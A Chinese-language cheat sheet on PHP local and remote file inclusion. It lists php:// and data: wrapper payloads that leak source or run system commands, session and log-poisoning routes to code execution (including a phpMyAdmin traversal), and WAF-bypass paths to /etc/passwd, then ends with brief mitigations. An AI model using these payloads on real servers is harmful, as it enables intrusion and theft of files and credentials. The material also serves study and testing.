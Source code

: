 # File Inclusion  
直接將包含文件作為xxx數據流來解析，場景就是攻擊者能控包含文件的變量  
常見危險函式：  
PHP: `include()`, `include_once()`, `require()`, `require_once()`, `fopen()`, `readfile()`  
JSP: `java.io.FileReader()`  
ASP: `includefile`  
php包含一個文件，會將該文件內容當作php代碼執行，因此不受檔名類型影響。  

# LFI  
能夠打開本地文件  

# RFI  
包含遠程文件，危害較大，但條件更嚴苛  
`php.ini`中設置  
1. allow_url_fopen = on (default: on)  
2. allow_url_include = on (default: off)  

# 包含手勢  
1. php偽協議  
```php
php://input
// 條件：allow_url_include = on
?file=php://input
POST data: xxx

php://filter
// 爆源碼
?file=php://filter/read=convert.base64-encode/resource=file.php

phar://path.zip/file.php
// php5.3.0up, 解析壓縮檔案

zip://path.zip%23file.php
// php5.3.0up, 功能與phar://一樣, 但需要指定絕對路徑, 而且要將#編碼成%23

data:URL schema
// php5.2up, php.ini中兩個設置都要on
?file=data:text/plain,<?php phpinfo();?>
?file=data:text/plain,<?php system(ls);?>
?file=data:text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b (base64編碼phpinfo)
```  
試試了解更多協議：`file://`,`ftp://`,`zlib://`,`glob://`,`ssh2://`,`rar://`,`ogg://`,`expect://`  
2. include session  
session內容可控，session路徑已知...  
session路徑可以透過phpinfo中`session_save_path`得知  
常見存放位置：  
```php
/var/lib/php/sess_xxxxx
/var/lib/php/sessions/sess_xxxx
/tmp/sess_xxxxxx
/tmp/sessions/sess_xxxxx
```  
實際案例：  
phpmyadmin從LFI漏洞到RCE  
```php
xxx/phpmyadmin/index.php?target=xxx.php%253F/../../../../../var/lib/php/sessions/sess_xxxxxx
```  
3. include log  
log是否可讀  
以apache為例，request會被寫入`access.log`，錯誤就寫入`error.log`，默認儲存在`/var/log/apache2/`  
所以應用場景先透過配置文件得到路徑，還需要注意請求會不會被編碼，可以透過burp修改再送出，最後再包含log即可  
4. include ssh log  
是否可讀？  
默認路徑在`/var/log/apache2/access.log`,`/var/log/apache2/error.log`  
```php
ssh '<?php phpinfo();?>'@remotehost
// phpinfo代碼會出現在log裡，在進行include就好
```  
5. include environ  
6. include fd  
7. include temp file  
8. include uploaded file  

# WAF繞過  
* 相對路徑繞過  
WAF通常會檢測**連續**幾個`../`
```php
// 根據路徑解析

//不變
/./不變
///./..//.//////./ 混著用
```  
* 絕對路徑繞過，`/etc/passwd`會被擋  
```php
/aaa/../etc/passwd
/etc/./passwd
```

# 防禦手勢  
稍微總結一下上面的條件，可以得到下面mitigation的手法  
* php `open_basedir`  
* read permission  
* 過濾危險字符
